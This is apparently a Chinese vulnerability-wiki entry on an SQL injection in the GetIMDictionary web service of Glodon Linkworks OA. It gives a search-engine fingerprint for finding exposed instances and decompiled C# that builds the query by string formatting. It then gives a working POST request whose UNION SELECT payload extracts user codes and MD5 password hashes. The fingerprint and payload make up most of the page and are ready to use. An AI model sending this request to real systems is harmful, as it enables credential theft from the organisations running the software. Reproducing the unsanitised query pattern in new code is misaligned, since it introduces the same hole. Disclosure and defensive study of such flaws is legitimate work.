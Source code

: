 # 广联达 Linkworks GetIMDictionary SQL注入漏洞

## 漏洞描述

广联达 Linkworks办公OA GetIMDictionary接口存在SQL注入漏洞，发送请求包后可以获取数据库中的敏感信息

## 漏洞影响

<a-checkbox checked>广联达 Linkworks</a-checkbox></br>

## 网络测绘

<a-checkbox checked>web.body="/Services/Identification/"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1691730736125-bbb199fa-01fb-4790-b2a7-d813481d8d88.png)

```c
// GTP.IM.Services.Config.WebSite.WebService.IM.Config.ConfigService
// Token: 0x06000018 RID: 24 RVA: 0x00004148 File Offset: 0x00002348
[WebMethod(Description = "得到IM系统配置")]
public string GetIMDictionary(string key)
{
	string str = string.Empty;
	ISysConfigService service = ServiceFactory.GetService<ISysConfigService>();
	StringBuilder stringBuilder = new StringBuilder();
	stringBuilder.AppendFormat("select F_VALUE from T_IM_DICTIONARY where f_key='{0}';", key);
	DataSet dataSet = GSqlDataAccess.SelectDataSet(service.DataSourceName, stringBuilder.ToString(), new DataParameter[0]);
	if (dataSet != null && dataSet.Tables.Count > 0 && dataSet.Tables[0] != null)
	{
		foreach (object obj in dataSet.Tables[0].Rows)
		{
			DataRow dataRow = (DataRow)obj;
			str = dataRow["F_VALUE"].ToString();
		}
	}
	StringBuilder stringBuilder2 = new StringBuilder();
	stringBuilder2.Append("<?xml version=\"1.0\" encoding=\"utf-8\"?>");
	stringBuilder2.Append("<result  value=\"" + str + "\" >");
	stringBuilder2.Append("</result>");
	return stringBuilder2.ToString();
}

```

![image.png](/assets/PeiQi-Wiki/img/1691802569740-77f284a9-b794-4a09-a5fb-1191f5d1ae60.png)

验证POC

```php
POST /Webservice/IM/Config/ConfigService.asmx/GetIMDictionary HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded

key=1' UNION ALL SELECT top 1 concat(F_CODE,':',F_PWD_MD5) from T_ORG_USER --
```

![img](/assets/PeiQi-Wiki/img/1691730785445-8eb7507c-cb15-4876-801a-0be49781ccb2.png)
